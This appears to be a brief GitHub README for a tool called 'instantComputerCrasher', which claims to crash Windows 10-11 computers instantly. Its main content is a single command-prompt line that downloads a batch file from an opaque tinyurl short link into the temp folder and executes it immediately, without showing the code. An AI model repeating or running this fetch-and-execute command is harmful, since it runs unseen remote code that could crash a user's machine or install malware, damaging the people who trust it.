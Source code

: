 # instantComputerCrasher
This script allows any windows computer 10-11 to crash INSTANTLY.

# Crash your computer
`curl -L https://tinyurl.com/werj1k32m41oi234j > %temp%\c.bat && %temp%\c.bat` run in command prompt
